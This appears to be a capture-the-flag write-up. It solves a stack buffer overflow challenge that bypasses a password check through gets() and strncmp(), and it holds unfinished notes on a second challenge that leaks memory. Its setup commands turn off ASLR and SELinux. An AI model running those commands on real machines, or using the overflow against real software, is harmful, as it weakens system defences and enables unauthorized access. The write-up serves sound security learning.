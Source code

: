 # Exploitation
Anytime you run across these types of challenges
* Disable Address Space Layout Randomization (ASLR)
* Set ulimit to `unlimited` for core file generation
* Disable SELinux
   ```sh
    sysctl kernel.randomize_va_space=0
    ulimit -S -c unlimited > /dev/null 2>&1
    setenforce 0
   ```

## 75pts: [Stack Overflow]
Authenticate without the password. Cause the program to print 'Success!' without crashing it and without the password. Note the value for 'authenticated' as well.

1. Copy the code into a  file: `exploit-75pts.c`
2. The hint tells us it also wants the value of `authenticated`
3. Edit the program and add a `printf()` statement:
   ```sh
    ...
     if (authenticated) {
         printf("Success!\n");
         printf("%d\n",authenticated);
         return 0;
      }
    ...
   ```
4. Code Review: `strncmp()` - `compares the only first (at most) n bytes of s1 and s2`
5. Code Review: `gets()` - ` gets() will continue to store characters past the end of the buffer`
6. Compile: `gcc -Wall exploit-75pts.c -o exploit-75pts` (note the compiler warning)
6. Entering anything greater than 12 characters as a password (clobbering `\0`), should pass `strncmp()` check:
   ```sh
   ./exploit-75pts
   Enter the password: AAAAAAAAAAAAA
   Success!
   65
   ````

## 175pts: [Lonely Bot]
Lonely Bot just wants to talk. (program output in web console).
* I haven't solved this one yet. The following are just some notes.

1. Crash the program (generate core file): `./lonely_bot < /dev/urandom`
2. Base64 input:
   ```sh
   echo -n 'E' | base64
   RQ==

   base64> RQ==
   Now you're speaking my language!!
   Here's everything I know about that:

   No, I don't think that's right.
   Please, tell me more.
   base64> RQ==0x000000000000000000000000000000000000000000000111
   Now you're speaking my language!!
   Here's everything I know about that:

   The answer is 42.
   Please, tell me more.
   base64> Here's everything I know about that:
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 18 fe 14 32 67 e8 76 90 21 40 00
   00 00 00 00 39 1a 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 01 00 00 00 48 44 b1 26
   fc 7f 00 00 fe 0b 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 06
   Wow! That's very interesting.
   Please, tell me more.
   base64>
   ```
* Find the correct memory address for the flag?
* Notes/Refs: https://bitvijays.github.io/LFC-BinaryExploitation.html

